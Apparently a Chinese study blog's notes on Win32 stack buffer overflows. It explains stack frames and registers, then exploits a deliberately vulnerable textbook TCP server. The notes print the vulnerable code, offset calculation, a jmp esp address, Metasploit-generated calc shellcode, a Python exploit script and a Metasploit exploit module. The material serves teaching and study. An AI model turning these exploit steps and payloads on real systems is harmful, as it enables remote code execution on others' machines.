





栈溢出学习
暑假实习时和糖果师傅学习了栈溢出，扔了半年，前几天捡起来再次学习一番，纪录笔记如下。
基础概念
- 每一个函数独占自己的栈帧空间。当前正在运行的函数的栈帧总是在栈顶。Win32 系统提供两个特殊的寄存器用于标识位于系统栈顶端的栈帧：
- ESP：栈指针寄存器，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的栈顶。
- EBP：基址指针寄存器，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的底部。
- 在函数栈帧中，一般包含以下几类重要信息：
- 局部变量：为函数局部变量开辟的内存空间。
- 栈帧状态值：保存前栈帧的顶部和底部（实际上只保存前栈帧的底部，前栈帧的顶部可以通过堆栈平衡计算得到），用于在本帧被弹出后恢复出上一个栈帧。
- 函数返回地址：保存当前函数调用前的“断点”信息，也就是函数调用前的指令位置，以便在函数返回时能够恢复到函数被调用钱的代码区中继续执行命令。
- EIP：指令寄存器，其内存放着一个指针，该指针永远指向下一条等待执行的指令地址。可以说如果控制了 EIP 寄存器的内容，就控制了进程 —— 我们让 EIP 指向哪里，CPU 就会去执行哪里的指令。
- 函数调用大致包括以下几个步骤。
- 参数入栈：将参数从右向左依次压入系统栈中。
- 返回地址入栈：将当前代码区调用指令的下一条指令地址压入栈中，供函数返回时继续执行。
- 代码区跳转：处理器从当前代码区跳转到被调用函数的入口处。
- 栈帧调整：具体包括：
- 保存当前栈帧状态值，以备后面恢复本栈帧时使用（EBP入栈）
- 将当前栈帧切换到新栈帧（将ESP 值装入 EBP，更新栈帧底部）
- 给新栈帧分配空间（把 ESP 减去所需空间的大小，抬高栈顶）
- 按照函数调用约定组织起来的系统栈结构如下：

- 一般情况下，ESP 寄存器中的地址总是指向系统栈中且不会被溢出的数据破坏。函数返回时，ESP 所指的位置恰好时我们所淹没的返回地址的下一个位置（因为 ESP 永远指向系统栈最上面一个栈帧的栈顶）。
漏洞代码
测试的漏洞为《0day 安全 软件漏洞分析技术》一书中第 4 章提供的 TCP Server，代码如下：
#include <iostream.h>
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")
void msg_display(char * buf)
{
char msg[200];
strcpy(msg, buf); //overflow
cout << "************************************************" << endl;
cout << "received:" <<endl;
cout << msg << endl;
}
void main()
{
int sock, msgsock, lenth, receive_len;
struct sockaddr_in sock_server, sock_client;
char buf[0x200];
WSADATA wsa;
WSAStartup(MAKEWORD(1, 1), &wsa);
if ((sock=socket(AF_INET, SOCK_STREAM, 0))<0)
{
cout << sock << "sock creating error!" << endl;
exit(1);
}
sock_server.sin_family = AF_INET;
sock_server.sin_port = htons(7777);
sock_server.sin_addr.s_addr = htonl(INADDR_ANY);
if (bind(sock, (struct sockaddr*)&sock_server, sizeof(sock_server)))
{
cout << "binding stream socket error!" << endl;
}
cout << "************************************************" << endl;
cout << " exploit target server 1.0 " << endl;
cout << "************************************************" << endl;
listen(sock, 4);
lenth = sizeof(struct sockaddr);
do {
msgsock = accept(sock, (struct sockaddr*)&sock_client, (int*)&lenth);
if (msgsock == -1)
{
cout << "aaccept error!" << endl;
break;
}
else
do
{
memset(buf, 0, sizeof(buf));
if ((receive_len = recv(msgsock, buf, sizeof(buf), 0))<0)
{
cout << "reading stream message erro!" << endl;
receive_len = 0;
}
msg_display(buf);
} while (receive_len);
closesocket(msgsock);
} while (1);
WSACleanup();
}
计算溢出长度
使用 metasploit tools 中的 pattern_create.rb 与 pattern_offset.rb 计算溢出长度。首先生成一个长度为 500 的模版字符：
root@sh3ll-me:/opt/metasploit-framework/tools(master○) # ./pattern_create.rb 500
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq
发送模版字符串到 TCP Server 后，程序崩溃，纪录其崩溃地址：

计算其偏移：
root@sh3ll-me:/opt/metasploit-framework/tools(master○) # ./pattern_offset.rb 0x37674136
[*] Exact match at offset 200
Exploit It!
根据栈结构，可以构造如下的溢出字符串：
buf(200) + ret(4) + shellcode
其中返回地址 ret 用 jmp esp 的地址覆盖。
查找 jmp esp 地址
运行 TCP Server，通过 LoadPE 可以查看出其所加载的所有 dll：

这里我在 kernel32.dll 中查找 jmp esp 地址：
root@sh3ll-me:/opt/metasploit-framework(master○) # ./msfpescan -j esp /tmp/kernel32.dll
[/tmp/kernel32.dll]
0x7c86467b jmp esp
0x7c903015 push esp; retn 0x0353
Metasploit 生成 shellcode
msf > use payload/windows/exec
msf payload(exec) > set cmd calc
cmd => calc
msf payload(exec) > generate -b \x00\x03 -t python
# windows/exec - 213 bytes
# http://www.metasploit.com
# Encoder: x86/countdown
# VERBOSE=false, PrependMigrate=false, EXITFUNC=process,
# CMD=calc
buf = ""
buf += "\x33\xc9\xb1\xc3\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c"
buf += "\x0e\x07\xe2\xfa\xfd\xea\x8a\x04\x05\x06\x67\x81\xec"
buf += "\x3b\xd9\x68\x86\x5c\x3f\x9b\x43\x1e\x98\x46\x01\x9d"
buf += "\x65\x30\x16\xad\x51\x3a\x2c\xe1\x2e\xe0\x8d\x1e\x42"
buf += "\x58\x27\x0a\x07\xe9\xe6\x27\x2a\xeb\xcf\xde\x7d\x67"
buf += "\xba\x60\x23\xbf\x77\x0a\x36\xe8\xb2\x7a\x43\xb9\xfd"
buf += "\x4a\x75\x41\x91\x12\xc8\x0c\x5d\xcd\x1f\x68\x48\x99"
buf += "\xa8\x70\x04\xc5\x7b\xdb\x50\x84\x62\xab\x64\x96\xfb"
buf += "\x99\x96\x57\x5a\x9b\x65\xbe\x2a\x94\x62\x1f\x9b\x5f"
buf += "\x18\x42\x12\x8a\x31\xe1\x33\x48\x6c\xbd\x09\xfb\x7d"
buf += "\x39\xf8\x2c\x69\x77\xa4\xf3\x7d\xf1\x7a\xac\xf4\x3a"
buf += "\x5b\xa4\xda\xd9\xe2\xdd\xdf\xd7\x78\x68\xd1\xd5\xd1"
buf += "\x07\x9f\x65\x09\xcd\xfb\x93\x1e\x11\x2c\x96\x97\x98"
buf += "\xc9\xf2\xaa\x17\xf2\x19\x60\x75\x1a\x08\x66\x46\xf8"
buf += "\xce\x01\x3d\x14\x37\x54\x79\x91\xa8\xd3\xba\x31\x49"
buf += "\x53\xc1\xb0\x0d\xf0\xab\xcb\xd5\xd1\xbc\xee\x41\x6a"
buf += "\xa3\xa0\xae\xa0\xc4"
注：\x00\x03 为坏字符，应过滤。
构建溢出脚本
将 buf、ret、shellcode 进行拼接，发送给服务器：
from socket import *
host = "192.168.17.136"
port = 7777
buf = "\x90" * 200
ret = "\x7B\x46\x86\x7C"
shellcode = ""
shellcode += "\x33\xc9\xb1\xc3\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c"
shellcode += "\x0e\x07\xe2\xfa\xfd\xea\x8a\x04\x05\x06\x67\x81\xec"
shellcode += "\x3b\xd9\x68\x86\x5c\x3f\x9b\x43\x1e\x98\x46\x01\x9d"
shellcode += "\x65\x30\x16\xad\x51\x3a\x2c\xe1\x2e\xe0\x8d\x1e\x42"
shellcode += "\x58\x27\x0a\x07\xe9\xe6\x27\x2a\xeb\xcf\xde\x7d\x67"
shellcode += "\xba\x60\x23\xbf\x77\x0a\x36\xe8\xb2\x7a\x43\xb9\xfd"
shellcode += "\x4a\x75\x41\x91\x12\xc8\x0c\x5d\xcd\x1f\x68\x48\x99"
shellcode += "\xa8\x70\x04\xc5\x7b\xdb\x50\x84\x62\xab\x64\x96\xfb"
shellcode += "\x99\x96\x57\x5a\x9b\x65\xbe\x2a\x94\x62\x1f\x9b\x5f"
shellcode += "\x18\x42\x12\x8a\x31\xe1\x33\x48\x6c\xbd\x09\xfb\x7d"
shellcode += "\x39\xf8\x2c\x69\x77\xa4\xf3\x7d\xf1\x7a\xac\xf4\x3a"
shellcode += "\x5b\xa4\xda\xd9\xe2\xdd\xdf\xd7\x78\x68\xd1\xd5\xd1"
shellcode += "\x07\x9f\x65\x09\xcd\xfb\x93\x1e\x11\x2c\x96\x97\x98"
shellcode += "\xc9\xf2\xaa\x17\xf2\x19\x60\x75\x1a\x08\x66\x46\xf8"
shellcode += "\xce\x01\x3d\x14\x37\x54\x79\x91\xa8\xd3\xba\x31\x49"
shellcode += "\x53\xc1\xb0\x0d\xf0\xab\xcb\xd5\xd1\xbc\xee\x41\x6a"
shellcode += "\xa3\xa0\xae\xa0\xc4"
sock = socket(AF_INET, SOCK_STREAM)
sock.connect((host, port))
sock.send(buf+ret+shellcode)
sock.close()
执行后，成功弹出计算器，shellcode 已运行！

编写 Metasploit 模块
MSF 的框架化使得 exploit 的开发更加简单方便：
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
include Exploit::Remote::Tcp
def initialize(info = {})
super(update_info(
info,
'Name' => 'test',
'Version' => '1.0',
'Platform' => 'win',
'Privileged' => true,
'License' => MSF_LICENSE,
'Author' => 'Chu',
'Targets' => [
['Windows XP SP3', {'Ret' => 0x7C86467B }]
],
'DefaultTarget' => 0,
'Payload' => {
'Space' => 300,
'BadChars' => "\x00",
}
))
end
def exploit
connect
print_status("Sending #{payload.encoded.length} byte payload...")
attack_buf = 'a'*200 + [target['Ret']].pack('V') + payload.encoded
sock.put(attack_buf)
handler
disconnect
end
end

Reference
《0day 安全 软件漏洞分析技术》
感谢@糖果牛。